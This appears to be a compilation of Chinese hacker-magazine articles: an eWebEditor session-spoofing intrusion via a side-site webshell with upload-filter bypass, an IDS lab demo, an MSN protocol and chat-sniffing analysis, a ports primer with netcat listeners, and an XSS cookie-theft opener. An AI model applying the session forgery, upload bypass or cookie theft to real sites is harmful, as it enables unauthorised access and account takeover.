我没有那么快死心，还是回过头看目标站，觉得还是只有从 ewebeditor 下手。Google 了一下这个编辑器的漏洞，其中一条引起了我的注意：eWebEditor session 欺骗漏洞。以前好像也见过，不过觉得没有什么利用价值就没有注意，仔细看了下才发现这里正是它的用武之地！为了照顾菜鸟朋友，我先介绍什么叫 session 以及它的特点。

> session 其实指的是访问者从到达某个特定的主页到离开为止的那段时间，每个访问者都会单独获得一个 session，它是保存在服务器端的，我们是无法修改的。

在这里 ewebeditor 就是根据 session 来判断用户是否登录后台的。要是输入了正确的用户名和密码，服务器就会为你保存一个 session 值，这样才可以访问后台的所有文件。那么要是我们为自己构造一个 session 值呢？很多朋友会说 session 是保存在服务器端的，我们怎么能构造呢？是的，通常情况下我们不行，但是现在我们有了一个服务器的 webshell 之后呢？呵呵，问题就在这里了，我们虽然没有服务器的系统权限，但是我们一样可以构造赋予 session 值的 asp 文件，然后访问。这样我们就得到了服务器给的 session 值，也就通过了编辑器的后台验证！

说了这么多，还是带大家一起实践下吧。我要拿的目标站是 www.xxx.com，现在通过旁注得到了同一台服务器上的 www.yyy.com 的一个 webshell，接下来就是要为自己构造一个 session 值了。新建一个 asp 文件，在里面填入如下 asp 代码：

```asp
<%Session("eWebEditor_User") = "heiluobo"%>


```

保存为 1.asp，如图 1。  
把这个文件通过 webshell 上传到 www.yyy.com 的根目录下，然后访问 www.yyy.com/1.asp，如图 2。  
接着直接访问 www.xxx.com 站点的 ewebeditor 目录下的 Admin_Default.asp，就直接进入后台了，如图 3。  
接下来的步骤以前已经有很多人讲过，这里我就简单说下：直接在样式管理里面选择一个样式，然后在上传类型里面添加 asa|asp 来绕过上传，得到 webshell，如图 4。

这里我只是用 ewebeditor 编辑器的 session 欺骗漏洞来为旁注增添了一点新的思路。其实旁注还可以玩儿得更精彩。我是黑萝卜，欢迎大家一起讨论研究技术。

### 编辑点评：

ewebeditor 作为一款在线编辑器，它的表现还是很优秀的，可能是作者在编写代码时经验不足，没有为 session 变量加入前导字符串，导致漏洞产生。其实对于中小型代码，session 欺骗漏洞是很普遍的。这个漏洞一般不会有危险，但配合旁注……
> 飘言飘雨  
> 这次的恶补文章难度有所提高，你不能一直把自己当作菜鸟，这样永远也不会有提高。我们在学习过程中不但要学习作者的方法，更重要的是学习作者的思路，并且大胆地把它们放到实际应用上。就如“MSN 协议用户认证及消息传输过程分析”，通过这篇文章你应该对协议有实质性的认识。人不是死的，所以知识不是死的。（什么逻辑？）

四川大学信息安全研究所 刘坤 / maxell

# 浅析 IDS

- 从本文中你可以学到：
  1. IDS 的概念、工作流程和技术原理
  2. IDS 的简单应用

## 一、何谓 IDS

IDS 是 Intrusion Detection System 的缩写，即入侵检测系统。它是通过对网络或系统中所有的通信数据进行分析处理后，将有可能或正在发生的攻击行为以及与此攻击行为有关的数据模式和行为模式报告给管理员，使他能够采取足够的措施阻止即将发生或者正在发生的破坏。一般来说，现阶段的 IDS 主要有 HIDS（基于主机入侵检测系统）和 NIDS（网络入侵检测系统）两种。

HIDS 是通过对各种日志、端口开放状况、系统调用等方面的监测，对主机当前的活动行为进行分析，以发现异常情况。HIDS 的代表有 ICESWORD（也就是我们常说的冰刃）、绿盟科技的星云系列。

NIDS 是通过对监控网络内的所有通信数据进行监控，对其中异常的或者包含攻击行为的活动进行报警。NIDS 现在广泛应用在政府、军队、企业等各种重要部门的网络中，也是我们所说的一般意义上的 IDS。NIDS 的代表有 INIDS（一款免费的基于 Windows 平台的 IDS）、SNORT（一款免费基于 Linux/Unix 的 IDS 软件）、启明星辰的天阗系列、绿盟科技的冰之眼系列。下面我们主要以 NIDS 为例对 IDS 的相关内容进行阐述。

### 1. 为什么要使用 IDS

现阶段，网络攻击的形式越来越多，DOS（拒绝服务攻击）、远程溢出攻击、smurf 攻击（一种伪造源地址向 smurf 放大器广播地址执行 ping 操作，然后所有活动主机都会向该目标响应，从而中断网络连接的攻击方式）、木马攻击、SQL 注入攻击、空/弱口令扫描攻击等等。由于攻击方式的多样化，单纯依靠防火墙和访问控制系统的老式防御体系，已经不能满足现阶段网络防御的要求。脚本攻击的发展造成了脚本木马的流行，对于建立在内网中的站点，防火墙并不能阻止 ASP 木马在站点上运行，不能阻止来自网络内部的攻击，不能防范数据驱动型的攻击；防火墙不能阻止用户从 Internet 上下载被病毒感染的计算机程序或者将该类程序附在电子邮件里面传输；访问控制系统可以阻止低权限的人做越权的事情，但是无法防范高权限的人搞破坏。如图 1 所示就是 IDS 的监控过程。
而针对这些攻击方式，我们就可以用到 IDS。通过 IDS 和防火墙之间的有效互动，能够阻止以上多种攻击方式。那么 IDS 是如何实现网络监测的，它的原理又是怎样的呢？

### 2. IDS 的技术原理

IDS 一般包括数据获取模块、分析处理模块、规则数据库模块、报警与联动模块。数据获取模块把监控网络中所有的数据包捕获下来，通过分析处理模块对这些数据包进行处理，提炼出其中具有代表性的特征数据，然后与规则数据库中的数据进行对比，分析这些数据包是否来自异常活动或者网络攻击行为；如果是，则向管理员报警，并且和防火墙进行联动，针对这些攻击行为采取相应的防护措施，如图 2 所示。
## 二、应用举例

下面以 INIDS 为例，简单介绍 IDS 的使用。

> 注：本次应用举例我采用的是 INIDS-1.0，使用一台 Win2000 Server 的虚拟机作为被监控主机（IP 为 192.168.92.225），使用本机作为发起攻击的主机（IP 为 192.168.92.1）。

INIDS 是一款基于 Windows 平台的免费入侵检测软件，配置简单，界面简洁，但足够让我们了解到 IDS 的基本特征。遗憾的是，INIDS 1.0 版本只支持到 Win2000，在 XP 下暂时还无法使用。

首先，在我们的监控主机上安装 INIDS。INIDS 的安装很简单，一路 next 下去即可，也不需要重启机器。安装完成后运行 INIDS 会出现如下界面，如图 3 所示。

我们在“1.select nic to tap with ids”后面选择监控主机使用的网卡，其他则保持默认选项，然后在第一排的按钮处点击“Apply”按钮以应用规则，最后点击第一个三角形按钮“start”，这时候 INIDS 已经处于监听状态。

下面我开始对监控主机发起攻击了，先在本机打开命令行，输入 ping 192.168.92.225，在 INIDS 最下面那个对话框立即显示出监控主机接收到了 ping 包，如图 4 所示。

然后我使用 XSCAN 对监控主机进行扫描，看是否有可以利用的漏洞。当 XSCAN 发起扫描后，INIDS 中立即出现大量攻击记录，并且 INIDS 还伴随有报警的声音发出，如图 5 所示。

我们点击其中一条记录，可以看到攻击的详细信息：源 IP、源端口、目的 IP、目的端口、攻击类型、攻击时间等，如图 6 所示。
根据这些信息，我们就能够很好地评估监控主机现在所处的状态。通过 XSCAN 扫描，我发现了监控主机开放了 MSSQL 服务，并且有 MS02039 漏洞，利用这个漏洞对应的 ms02039 攻击程序对监控主机发起攻击，溢出成功后，在 INIDS 中又显示出了我攻击的有关信息，“MS-SQL version overflow attempt”，即 MSSQL 缓冲区溢出攻击，如图 7 所示。
以上就是一个常规攻击过程，从始至终 INIDS 都有记录，可见 IDS 对网络攻击的检测还是很有作用的，作为免费的 IDS，INIDS 表现还是很不错的。

# 三、总结

鉴于本人水平有限，我只能给大家简单介绍了下 IDS 的概念、原理以及相关应用，文中难免会出现错误，欢迎大家批评指正，有什么疑问也可以到非安全论坛一起讨论。

### 编辑点评：

> IDS 作为一种辅助手段在网络安全中的应用越来越广泛了，本文只是对 IDS 的一个简单介绍，INIDS 也只能算是一个辅助软件。真正强大的 IDS 是工作在 Linux 下的，如果你在入侵过程中发现 IDS，还是尽早收手，这可能意味着在探测阶段你就已经被跟踪，或者被引导进蜜罐了。
# MSN 协议用户认证及消息传输过程分析

xY7[B.C.T]

Windows Live Messenger（MSN 8.0）的推出标志着 M$ 在即时通讯技术上的进步，在 Live Messenger 中，区别于以往 MSN 最大的不同就是对用户身份认证技术上的改变，本文通过嗅探工具 sniffer pro 对 Live Messenger 登录过程的抓包分析，来说明 MSNP13 协议是如何进行用户身份认证的。

## 学习前需要了解的知识：

- 1、1999 年，Microsoft 向 IETF 提交了一份“MSN Messenger Service 1.0 Protocol”草案，这是最初版本的 MSN Messenger 协议。在以后几年，该公司不再公开有关 MSN Messenger 协议的升级、修改细节的官方文档。

不过 MSN 也公开了许多接口，使得研究人员或者爱好者可以编写程序和 MSN 服务器进行交互。

- 2、MSN 和客户端的交互逻辑上经过 3 种服务器，他们分别为：

  ①派遣服务器（Dispatch Server，DS）——客户端最初连接的服务器。负责给客户端分配合适的通知服务器。域名是 messenger.hotmail.com，标准服务端口是 1863。完成派遣任务后，切断 TCP 连接。

  ②通知服务器（Notification Server，NS）——客户端需要一直保持连接的服务器。很多任务要在这个会话内完成，包括登录、改变状态、获取用户列表、修改用户信息、发起聊天、接受呼叫、邮件通知、退出等等。服务端口由派遣服务器指定，通常也是 1863。

  ③接线服务器（Switchboard Server，SS）——客户端之间聊天使用的中转服务器。每一个聊天窗口，客户端和服务器就建立一个 TCP 会话。当客户端之间需要进行文件传输或语音聊天时，发送系统消息，建立“点对点”会话通道（可能转为使用 UDP）。服务端口通常也是 1863。“点对点”通信使用的端口由客户端自动协商决定，如文件传输通常使用 6891 端口。

- 3、分析过程中需要知道的一些 MSN 命令：

VER 命令：指出了 MSN Messenger 协议所支持的版本信息。VER 命令包含一个事务 ID、一串协议版本信息和参数；

CVR 命令：发送客户端及操作系统的版本信息到服务器，对于官方客户端来说，服务器会响应建议用户使用的客户端版本信息；

USR 命令：它拥有一个事务 ID，也就是登录时的 MSN 账号，用于和 MSN 服务器交互。

下面先看一个 MSNP9 协议以前的用户与 Dispatch Server（简称 DS）的连接过程：

```text
connect messenger.hotmail.com 1863
>>> ver 0 msnp7 msnp6 msnp5 msnp4 cvr0
<<< ver 0 msnp7 msnp6 msnp5 msnp4 cvr0
>>> inf 1
<<< inf 1 md5
>>> usr 2 md5 i example@hotmail.com
<<< xfr 2 ns 111.111.111.111:1863 0
```

通过这段连接过程可以看到，因为 MSNP 协议是基于 TCP/IP 协议的，所以首先客户端需要与 DS 服务器建立 3 次握手（这里省略），接着通过打开的 1863 端口向 DS 服务器发送一个 ver 命令，请求协商等待使用的 MSN 协议，以 cvr0 为结尾。

服务器收到请求后做出回应，返回同样的 MSN 协议版本，以 cvr0 为结尾；

然后客户端向 DS 服务器发出一个 inf 命令，请求协商一个用户身份认证算法；

DS 服务器做出回应返回使用 MD5 认证；

客户端根据服务器的回应发送 usr 命令，其中包含 2 个参数，第一个是服务器返回的 MD5 认证，第二个是用户登录的 MSN 账号；

服务器根据收到的请求返回一个 xfr 命令，把 NS 服务器的 IP 地址和端口作为参数返回给客户端；

最后断开 DS 服务器和客户端的连接，客户端请求连接 NS 服务器。

接着来看一下在 Live Messenger 中采用的 MSNP13 协议是如何进行用户身份认证的。在 MSNP9 以后，MSN 使用的用户认证算法发生了很大的改变，不再是用 MD5 进行认证，而是采用了 TWN 认证。TWN（“Tweener”）认证是 MSN Messenger 接入微软护照认证体系的方式。护照认证是微软为 Internet 服务提供“标识一次”系统所做的尝试。

该通信采用 SSL/TLS 协议连接 login.passport.com 和 loginnet.passport.com 等服务器，借助于 HTTP 协议输入账号和密码，交互的细节都被加密了。

> TWN 认证包含以下步骤：

- 1-- 客户端保存 USR 应答串；
- 2-- 客户端（可选）连接到护照“Nexus”，得到登录服务器 URL。这个结果不会经常变更，可以被缓存。
- 3-- 客户端使用存根、护照、口令，通过登录服务器验证，服务器将做下列操作之一：
  - (1) 重新定位客户端到另外一个登录服务器，并进行认证（注意：这个服务器不必缓存）；
  - (2) 返回一个登录错误，并携带适当错误信息；
  - (3) 返回一个“ticket”，ticket 将在 USR 应答中发送给通知服务器。

接下来看看通过 sniffer 抓到的使用 Live Messenger 登录的用户认证过程：

- 1. 首先和 DS 服务器协商协议版本：VER 1 MSNP14 MSNP13 CVR0，这里协商了 2 个版本，其中 MSNP14 可以实现与 YAHOOMESSAGE 的通讯，如图 1。
- 2. 接着 DS 服务器返回所使用的协议版本：VER 1 MSNP13 CVR0，如图 2。
- 3. 然后客户端发送本地的信息：CVR 2 0x0804 winnt 5.2 i386 MSNMSGR 8.0.0792 msmsgs test@hotmail.com，其中内容包括使用语言：简体中文 [0x0804]，操作系统 win2003[NT5.2]，MSN 版本：8.0.0792，登录账号：test@hotmail.com，如图 3。
- 4. 客户端要求身份认证（I = Initial）：USR 6 TWN I test@hotmail.com
- 5. 服务器返回认证信息：其中的 tpf 参数的值是可变的，参与 hash 运算保证每次返回的值不同（图 4）：

```text
USR 6 TWN S lc=1033,id=507,tw=40,fs=1,ru=http%3A%2F%2Fmessenger%2Emsn%2Ecom,ct=1153444780,kpp=1,kv=7,ver=2.1.6000.1,rn=fw7oEp3F,tpf=6d3b27b75d2f81495d8ebd608a2c44a4
```

- 6. 客户端根据服务器的回应生成的内容（图 5）：

```text
USR 7 TWN S t=7Mo+km40CFMewnWdOENBLHF+DIzxC
NbBLqzKsQrGCpzA03GT0sRKeFOCuREaQ1p1t3hmk9B8M7R
LwKluhgivUDr6ev9JgsnBeFDHiPqabckhRvXgdym2L1DXdF
RUYJSW&p=7L8yUYyU6F4kbYwPMZ5tGNxiInGh1k4INWEFu
A7TMtBIN2bx5tZdgF451GUrCQtaQ64Ai65NOmiaq6yX3I
*apdNoMiDdRXXIoHOON8ljH3fT.VIYVEXOXfcA6xrtdil
5hu42z4MXPzWZUh5YSciTpmRLr5J7lmWSQxBKYIK9Q7411
*JIZa2QS$
```

- 7. 服务器接受到“护照”通过用户身份认证，返回通行的回应：USR 7 OK test@hotmail.com 1 0，如图 6。其中第四个参数表示你的护照是否已经通过检验（1=true，0=false）。

完整认证过程：

```text
VER 1 MSNP14 MSNP13 CVR0
VER 1 MSNP13 CVR0
CVR 2 0x0804 winnt 5.2 i386 MSNMSGR 8.0.0792
msmsgs test@hotmail.com
USR 6 TWN I test@hotmail.com


```
# 菜鸟恶补

```text
USR 6 TWN S lc=1033,id=507,tw=40,fs=1,ru=http%3A%2F%2Fmessenger%2Emsn%2Ecom,ct=1153444780,kpp=1,kv=7,ver=2.1.6000.1,rn=fw7oEp3F,tpf=6d3b27b75d2f81495d8ebd608a2c44a4
USR 7 TWN S t=7mo+km40CfMewnWq0EFNBLHF+DizxCnbBLqzKsORgCbzA93GT0sRKeFoCUReaQ1p1t3hmk9B8M7RLiwkluhgjvUDr6ev9JssnBeFDhipqabckhRVXgdYm2L1DXdFRUyJSW&p=7L8yUYYu6F4kbYwPMZ5tGNxiIngH1k4InWEFuA7TMtBIN2bx5tZdgF45|GUrCQ+taQ64AI+o65NQmja6yX3I+apdN6m|DdRXxiOHO0N8IH3fT|ViyVEXOXfcA6xrtd|i5hu42z4AMXpZwZu1l5Y!ScTmPRLr5j7lmWSQxBkYIK9Q74II+JI2a2Q$$
USR 7 OK test@hotmail.com 1 0


```
所有的命令编码后都以“0d 0a”结尾，比如命令：USR 6 TWN S lc=1033,id=507,tw=40,fs=1,ru=http%3A%2F%2Fmessenger%2Emsn%2Ecom,ct=1153444780,kpp=1,kv=7,ver=2.1.6000.1,rn=fw7oEp3F,tpf=6d3b27b75d2f81495d8ebd608a2c44a4，经过编码后的值为：

```text
55 53 52 20 36 20 54 57 4E 20 53 20 6C 63 3D 31 30 33 33 2C 69 64 3D 35 30 37 2C 74 77 3D 34 30 2C 66 73 3D 31 2C 72 75 3D 68 74 74 70 25 33 41 25 32 46 25 32 46 6D 65 73 73 65 6E 67 65 72 25 32 45 6D 73 6E 25 32 45 63 6F 6D 2C 63 74 3D 31 31 35 33 34 34 34 37 38 30 2C 6B 70 70 3D 31 2C 6B 76 3D 37 2C 76 65 72 3D 32 2E 31 2E 36 30 30 30 2E 31 2C 72 6E 3D 66 77 37 6F 45 70 33 46 2C 74 70 66 3D 36 64 33 62 32 37 62 37 35 64 32 66 38 31 34 39 35 64 38 65 62 64 36 30 38 61 32 63 34 34 61 34 0D 0A


```
分析了 MSN 认证过程的加密后，再来看看 MSN 消息传输过程，其实 MSN 的消息传输一直都是明文的，只不过是用 UTF-8 编码过的，当然 E 文的消息是直接可以看到的。这次分析采用的工具是 OmniPeek，觉得比 sniffer pro 要人性化一些，可以很清楚地看到 MSN 协议的包。

开始分析之前先要知道 MSN 进行消息传输的几个连接过程：

- 1. Content-Type: text/x-msmsgscontrol
- 2. Content-Type: symmetric-nat
- 3. Content-Type: text/x-msmsgsinvite
- 4. Content-Type: text/x-msnmsgrp2p
- 5. Content-Type: text/plain
解释一下，1 是消息传输控制，2 是视频连接，3 是音频连接，4 是视频、游戏，5 是文本传输。本文分析的就是文本的传输过程，总是听人说前段时间某某员工 MSN 聊天记录被监听到，因为 MSN 一直是明文传输，所以被监听是很正常的事情。其实查看 MSN 聊天原文是很简单的事情，不至于用工具那么复杂。

为了方便分析，我只抓取了发送文本的数据包，如图 7。

可以看到协议的类型很清楚地显示出来了，因为 MSN 协议是建立在 TCP 协议之上的，所以我们嗅的时候只需要把 Filters 定义为 TCP 协议就可以了。下面我们就来分析这些数据包。在 MSN 上向一个朋友发送一段消息：“这是我的方案 1111111111111111111111”，加上一段“1”是为了在编码中更好地看出我们的原始消息。看一下抓到的包如下：
```text
MSG 27 N 168
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
X-MMS-IM-Format: FN=MS%20Shell%20Dlg%202; EF=; CO=0; CS=1; PF=0
枵攪緜塈競縵輥 1111111111111111111
```

从上面的数据我们可以看出 MSN 消息的组成，MSN 消息符合标准的 MIME 1.0 协议，可以很清楚地看到消息头和消息体，看到这个大家想到了什么？这个一会儿再说，开始的 MSG 是消息的命令，后面是 MIME 的版本号，接着是连接类型 Content-Type: text/plain，这里看到了 charset=UTF-8，说明消息体是经过 UTF-8 编码过的，FN=MS%20Shell%20Dlg%202 消息头也需要经过 URL 编码。然后到了消息体：枵攪緜塈競縵輥 1111111111111111111111，这段信息就是我刚才发送的 MSN 消息，看到那一串“1”了吧，前面的那些字符是不是“这是我的方案”呢？看一下数据包 16 进制的编码内容：

```text
58 2D 4D 4D 53 2D 49 4D 46 6F 72 6D 61 74 3A 20 46 4E 3D 53 25 32 30 53 68 65 6C 6C 25 32 30 44 6C 67 25 32 30 32 3B 20 45 46 3D 3B 20 43 4F 3D 30 3B 20 43 53 3D 31 3B 20 50 46 3D 30 0D 0A 0D 0A E8 BF 99 E6 98 AF E6 88 91 E7 9A 84 E6 96 B9 E6 A1 88 31 31 31 31 31 31 31 31 31 31 31


```

最后一串“31”就是“1”的 16 进制了，再往前看“E8 BF 99 E6 98 AF E6 88 91 E7 9A 84 E6 96 B9 E6 A1 88”就是“这是我的方案”的 16 进制编码，为什么这么说呢？往前看 4 个字节“0D 0A 0D 0A”，在 MSN 中每行命令都需要以“0D 0A”作为结束符，转换过来就是“\r\n”，在数据包没有 decode 格式中的表现形式就是“..”。MIME-Version: 1.0\r\n 的 16 进制格式就是 4D 49 4D 45 2D 56 65 72 73 69 6F 6E 3A 20 31 2E 30 0D 0A，感兴趣的朋友可以相应地对照下。下面就来看下如何解码 MSN 的中文消息，大家也可以自己编程实现，无非是一个 UTF-8 的字符转换游戏而已了。

这里有一个小工具实现了这个功能，打开那个包，选中消息部分的 16 进制编码，如图 8。
后面的一串“1”就不用解释了，然后打开这个小工具，把 16 进制代码复制进去，如图 9。

从下面的回显中我们已经看到了被 UTF-8 编码后的中文消息，这个 Raw 功能就实现了 16 进制消息还原的功能，接下来要做的就是 UTF-8 解码，点下旁边的 UTF8Decode 按钮，可以看到原始消息已经被还原了，如图 10。
可以看到 MSN 协议的消息传输其实就是一个字符串编码游戏而已，根本没有经过加密。这里再提供一个方法，看下 MSN 的消息体：

```text
MSG 27 N 168
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
X-MMS-IM-Format: FN=MS%20Shell%20Dlg%202; EF=; CO=0; CS=1; PF=0

码櫶镞锩戬殽辐规 1111111111111111111


```

符合 MIME 标准，我们知道所有的邮件都是符合 MIME 标准的，也就是说一条 MSN 消息可以被当作一封邮件来处理，我们来实验下，把以上内容保存为 .eml 格式，用 Outlook 打开会是什么样呢？结果如图 11 所示。
消息被还原成功了。其实还原 MSN 消息的方法是有很多的，记住这只是一个编码游戏，那么用一些字符处理工具试试？比如 WinHex 之类的，这里我就不演示了，感兴趣的可以自己去实验下。

### 编辑点评：

> MSN 的字符编码游戏令小编我深感震惊，微软竟然这样对待消息加密，爆瑕疵也就不是什么稀奇的事情了。作者通过对 MSNP 协议的分析让我们对 MSN 与服务器的通信过程有了清晰的认识。分析协议是件很需要耐心的事情，除了需要了解协议，还需要网络知识，需要字符编码的知识。协议不能离开安全，认证更是如此，希望可以通过我们的努力让软件厂商们把安全做得更高！

在 Live Messenger 中，MS 为了保持 MSN 协议的开放性和扩展性，而又想增加一些隐私性给用户，虽消息是明文传输的，却增加了一个“悄悄话”功能，在这里对用户的消息传输进行加密，有时间我会分析一下这个功能的加密形式，这篇文章就到这里结束了，有问题或者对协议分析感兴趣的朋友可以来 BCT 或手册和我讨论，互相学习。

[文章中涉及的工具 SmartConvert 在光盘中有收录]
# 小菜补端 12——端口和应用

上一期，笔者为大家介绍了端口的概念以及对常见协议的理解。同时，在文章的最后为大家留下了一些问题让各位读者思考，下面先回顾一下上期的问题：

- 问题1、UDP 协议与 TCP 协议有什么不同？
- 问题2、如何打开一个端口？
- 问题3、如何关闭某一个端口？
- 问题4、什么是 TCP 扫描？
- 问题5、什么是 UDP 扫描？

这一期笔者将结合上期留下的问题，结合现在入侵中各种流行的元素，为大家讲解端口、协议等常接触到的知识。

## 一、TCP 与 UDP 协议

上期我们谈到了 TCP 连接（三次握手），TCP 协议是面向连接的稳定协议，TCP 除了三次握手来保证稳定的连接外，还有很多机制来保证连接在建立完成后，数据的稳定传输，比如，在数据发送和接收有一方繁忙时，双方会协商重新设置窗口（window）数来保证数据传输的数量不至于影响双方系统的负荷。另外，还有常见的重传机制，若是数据在传输过程中、在数据传输后发送方未接到接收方的确认，会将发送的数据块放在重传队列中，当然，数据分割的每个数据块都会有编号，以保证数据重组的时候能正确地拼装在一起。关于 TCP 协议的详细内容，如果读者有兴趣的话可以参考 TCP/IP 方面的书籍。
说了 TCP 协议，就不得不再说说 UDP 协议了，这两个协议经常会被放在一起比较。而且 UDP 和 TCP 协议一样，是能够承载大量数据的协议（当然，像 ICMP 这样的协议也可以用来承载数据，但是目前似乎除了木马程序外还没有什么标准应用来使用 ICMP 承载数据），UDP 协议与 TCP 的最大不同之处就在于，UDP 是非面向连接的协议，通过 UDP 协议发送数据就像通过平邮的信件一样，发送者把接收者的地址、姓名等信息（在网络中，地址、姓名等信息就好比是 IP 地址、UDP 端口等）写在信封上然后将信件发送出去，这时，发送者就会认为接收者已经收到了信件（当然，在现实生活中人们可以通过电话等方式来确认信件是否到达，但是在网络中是较为原始的，没有电话这种类似的方式来确认），所以说，UDP 是非面向连接的协议。

## 二、端口监听及关闭

端口监听就是很多读者经常问到的“如何打开一个端口”的问题，而“监听”一词的描述来自英文 LISTENING，上一期关于 netstat 命令中已经对几种常见的状态作了详细的介绍，读者可以再参考一下。

关于如何打开一个端口的问题，可能需要深究，比如，打开端口的目的是为了在该端口上提供某种服务，还只是单纯地毫无目的地打开某个端口？

如果是以提供服务而要打开某个端口的话，那么，只要安装相应的服务并将其启动就可以了，例如，启动 telnet 服务，系统即会打开 TCP 23 端口。

如果只是毫无目的地想打开某一个端口，那么，推荐使用工具——NetCat。提起 NetCat，读者们应该并不陌生，这就是大名鼎鼎的黑客瑞士军刀 NC。以打开 TCP 7777 端口为例，使用命令：`nc -vv -L -p 7777` 即可，如图 1。

使用以上命令，NC 会监听 TCP 7777 端口，如果想打开某个 UDP 端口，则可使用命令：`nc -vv -L -u -p 7777` 即可，如图 2。

了解如何打开端口，那么，就应该懂得如何去关闭端口。但是，在系统中有些端口所在的服务器可能会为系统提供必要的底层功能，是无法彻底关闭的，这时也许就需要使用防火墙类软件来从网络层屏蔽端口。当然，防火墙的一些基本拦截原理已不在本文讨论之列，有兴趣的读者可以参考相关资料。

## 三、TCP 扫描与 UDP 扫描

### 1. TCP connect 方式扫描

**Connect 扫描方式就是传统的 TCP 扫描**，上一期和本期前部分都提到过关于 TCP 三次握手，Connect 方式的扫描就是在扫描过程中，扫描程序会对扫描的端口建立标准的三次握手连接，当连接建立成功时，扫描器就会认为该端口是开放的，但是，同时被扫描的主机也会在本地留下扫描记录，就像上期关于 netstat 章节所提到的。

### 2. TCP SYN 方式扫描

**SYN 扫描方式则是常说到的半开式扫描**，在扫描器扫描过程中，不会建立三次握手连接，而是只发送 SYN 标志位，如果对方被扫描的端口开放，那么，对方回复的数据包中会包含 SYN 和 ACK 两种标志位，这时，扫描器认为该端口开放。如果被扫描的端口未开放，那么，被扫描主机会回复一个含有 RST 标志位的数据包，这时，扫描器就判断这个端口的状态为关闭。

### 3. 其他的 TCP 扫描方式

TCP 的扫描方式很多，例如 **FIN 扫描**、**ACK 扫描**，这些扫描方式都不是经常被直接使用到的，而大多是用来作为正规扫描过程中辅助扫描的。比如，FIN 扫描一般用来区分被扫描的端口是否为过滤（即，被防火墙类网络设备过滤），如果扫描器发送了带有 FIN 标志位的数据，而对方没有回复的话，即认为数据包被过滤。如果对方回复了 RST，则能说明数据包没有被过滤，但无法确定这个端口是开放还是关闭，具体的是开是关，则需要使用 SYN 或是 connect 方式来确认。

在 TCP 扫描中还有很多类似的扫描方式，但是，经常被用到的却只有其中的两种，就是 connect 和 SYN 方式。

而在常用的两种方式中，人们常认为 SYN 因为是半开扫描，所有的端口扫描过程都不是完整地建立了连接，因此 SYN 的扫描方式的速度快于 connect 方式，其实，这也不是绝对的。因为 SYN 是半开式扫描，所以，扫描器只发送 SYN 数据包，在发送时没有超时的设置，这与正常的 TCP connect 不同，TCP connect 扫描方式完全依靠 TCP 协议本身的标准连接，而 TCP 连接过程中是存在超时概念的，而超时时间可以设置，所以，当对方长时间没有响应（或到达了设置的超时时间还未响应）的时候，TCP connect 方式的扫描会认为对方端口为关闭状态。但是由于 SYN 并没有超时，所以，即使对方端口没有开放，扫描器也会一直等下去，直到程序本身超时为止。这样，一些对于 SYN 超时控制不好的程序在使用 SYN 方式扫描时，可能反而会比 TCP connect 扫描慢得多。

### 4. UDP 扫描

前面讲过了，UDP 是非面向连接的协议，也就是说，当我向某台主机的某个 UDP 端口发送数据时，**对方的 UDP 端口即使接收到了我的数据，也不一定回显**，除非该 UDP 端口上运行着一个交互式的 UDP 应用。例如，SNMP 的查询过程，使用了 UDP 端口，当客户端向提供了 SNMP 服务的服务器发送一个 walk 或 get 请求时，无论请求内容是否存在，只要是 SNMP 请求正确，对方都会有所回应。

有了上面这样一个概念为基础，我想，很多读者就应该能想到 UDP 扫描是如何实现的了。

对于有 UDP 扫描功能的扫描器来说，会向每个指定的 UDP 端口发送特定格式的数据包。例如，对方开了 UDP 161（SNMP），那么，扫描器就会在扫描 UDP 161 端口时发送 SNMP 格式的数据，如果对方响应，那么，就证明 UDP 161 端口开放。再举一例，在扫描常见的 UDP 123（NTP，网络时间协议）端口时，扫描器会模拟客户端发送一个时间同步请求，如果对方给予应答，那么，则证明对方的 UDP 123 端口开放。

通过以上两个例子，我想各位读者应该能明白 UDP 端口扫描是如何实现的了。但是，在 UDP 扫描过程中，同样存在着超时问题，因为 UDP 不像 TCP 那样有多种容错机制来保证数据准时、正确地传输，当数据发送出去后，想确认对方接受数据的端口是否开放的话，那么就只有一直等，等到程序超时或是等到正确的回应，因此，这也决定了 UDP 的扫描速度不会很快。而且，由于不是所有的 65535 个 UDP 端口都被定义了标准的服务，所以，在扫描过程中，对于很多 UDP 端口，扫描器是无法模拟提交 UDP 数据的，因此，**大部分 UDP 扫描也只限于一些被定义和经常被使用的 UDP 端口而已。**

说了那么多关于 UDP 端口的扫描问题，可能很多读者还是很迷惑，因为一直以来，被提到最多的来源于 TCP 的标准扫描，对 UDP 扫描接触的可能性并不多，难免会心生疑惑。这里，给大家推荐两款工具，一个是 nmap，另外一个则是 FoundStone 的 **Fscan**，这两款大名鼎鼎的扫描器对 UDP 扫描的支持性都不错，大家有时可以去试一试。

## 四、尾声

在本期文章中，笔者从常见的一些技术入手，结合 TCP/IP 这些基础知识，为大家讲解了一些既基础又流行的知识，希望读者能从中得到自己想要了解的知识。

限于篇幅和文章面向的读者，文中多处并未对一些技术细节进行详细讨论，有兴趣的朋友可以自己参考相关资料或到论坛上一起讨论。

> **编辑点评：**通过两期的学习，不知道读者朋友对端口和协议了解多少了？这是两个很简单也很复杂的概念，你可以简单地理解为端口就是一个通信的地址，协议就是通信的语言，协议就是一定格式排列的一串数据，每一段包含不同的意思……不过你想深入了解，还是要去看看专业的书籍，内容很多，需要耐心哦。

## 酷语

最近风飘毅然决定抛弃 Red Hat，爱上了 Ubuntu。原先是为了体验一下传说中的 Xgl，但用过一次就爱不释手了，最漂亮的 Linux 系统，果然名不虚传啊。比起红帽，个人感觉还是 Ub 的效率最高，运行稳定，特别是可以与 Vista 相媲美的 Beryl。那个爽啊。所以一连 M+N 天风飘都守在电脑旁，直接导致一女生发来一条短信：“你晚上就抱着电脑睡觉吧”……郁闷啊，无奈啊，不是想抱着电脑睡，是实在找不到别的东西抱啊……

- 从本文你可以学到：
- 跨站的基本技巧
- Cookie 欺骗原理
- ASP 基础知识

先说说思路：首先利用漏洞获取访问者的 Cookie（Cookie 是 Web 服务器保存在用户硬盘上的一段文本，主要用于识别用户身份），然后利用 Cookie 欺骗（Cookie 欺骗就是攻击者向服务器提交修改过的、伪造的或窃取的 Cookie，冒充合法用户登录）以管理者的身份登录群 BBS，只要获取了群管理员的 Cookie，我们就能利用群 BBS 上群管理功能提升自己为管理员，掌握“生杀大权”，先来看看这个漏洞：打开群的 BBS 点击发表文章，在文章内容的地方输入“[img]javascript:alert("试试")[/img]”UBB 代码经过转换变成了 ``，这段代码的意思是弹出一个对话框，发表后结果如图 1。直接显示出代码，难道说漏洞补上了？

